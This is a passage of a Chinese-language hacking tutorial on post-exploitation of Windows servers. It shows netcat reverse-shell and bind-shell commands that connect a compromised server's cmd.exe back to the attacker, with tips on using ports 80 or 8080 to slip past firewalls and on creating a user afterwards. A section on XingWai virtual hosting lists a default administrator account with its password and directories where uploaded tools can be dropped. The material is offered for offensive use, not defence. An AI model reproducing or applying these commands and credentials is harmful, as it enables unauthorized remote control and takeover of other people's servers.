 不过这种方法, 只要对方装了防火墙, 或是屏蔽掉了除常用的那几个端口外的所有端口，那么这种方法也失效了….

找个可读可写目录上传nc.exe cmd.exe

* -l  监听本地入栈信息
* -p  port打开本地端口
* -t  以telnet形式应答入栈请求
* -e  程序重定向

本地cmd执行：`nc -vv -l -p 52 进行反弹`

接着在shell里执行命令：`c:\windows\temp\nc.exe -vv 服务器ip 999 -e c:\windows\temp\cmd.exe`   最好是80或8080这样的端口，被防火墙拦截的几率小很多

执行成功后本地cmd命令：cd/  （只是习惯而已）

接着以telnet命令连接服务器：telnet 服务器ip 999

回车出现已选定服务器的ip就说明成功了，接着权限比较大了，尝试建立用户！

本地cmd执行：`nc -vv -l -p 52 进行反弹`
`c:\windows\temp\nc.exe -e c:\windows\temp\cmd.exe 服务器ip  52`

shell执行命令`c:\windows\temp\nc.exe -l -p 110 -t -e c:\windows\temp\cmd.exe`

一般这样的格式执行成功率很小，不如直接在cmd那里输入：`c:\windows\temp\nc.exe    命令这里输入：-vv 服务器ip 999 -e c:\windows\temp\cmd.exe`

这个技巧成功率比上面那个大多了，不单单是nc可以这样，pr这些提权exp也是可以的。

## 星外提权 

如何知道是不是星外主机？

第一：网站物理路径存在“freehost”
第二：asp马里点击程序，存在“7i24虚拟主机管理平台”“星外主机”之类的文件夹

默认帐号：freehostrunat
默认密码：fa41328538d7be36e83ae91a78a1b16f!7

freehostrunat这个用户是安装星外时自动建立的，已属于administrators管理组，而且密码不需要解密，直接登录服务器即可

星外常写目录：

```bash
C:\RECYCLER\
C:\windows\temp\
e:\recycler\
f:\recycler\
C:\php\PEAR\
C:\WINDOWS\7i24.com\FreeHost
C:\php\dev
C:\System Volume Information
C:\7i24.com\serverdoctor\log\
C:\WINDOWS\Temp\
c:\windows\hchiblis.ibl
C:\7i24.com\iissafe\log\
C:\7i24.com\LinkGate\log
C:\Program Files\Thunder Network\Thunder7\
C:\Program Files\Thunder Network\Thunder\
C:\Program Files\Symantec AntiVirus\SAVRT\
c:\windows\DriverPacks\C\AM2
C:\Program Files\FlashFXP\
c:\Program Files\Microsoft SQL Server\90\Shared\ErrorDumps\
C:\Program Files\Zend\ZendOptimizer-3.3.0\
C:\Program Files\Common Files\
c:\Documents and Settings\All Users\Application Data\Hagel Technologies\DU Meter\log.csv
c:\Program Files\360\360Safe\deepscan\Section\mutex.db
c:\Program Files\Helicon\ISAPI_Rewrite3\error.log
c:\Program Files\Helicon\ISAPI_Rewrite3\Rewrite.log
c:\Program Files\Helicon\ISAPI_Rewrite3\httpd.conf
```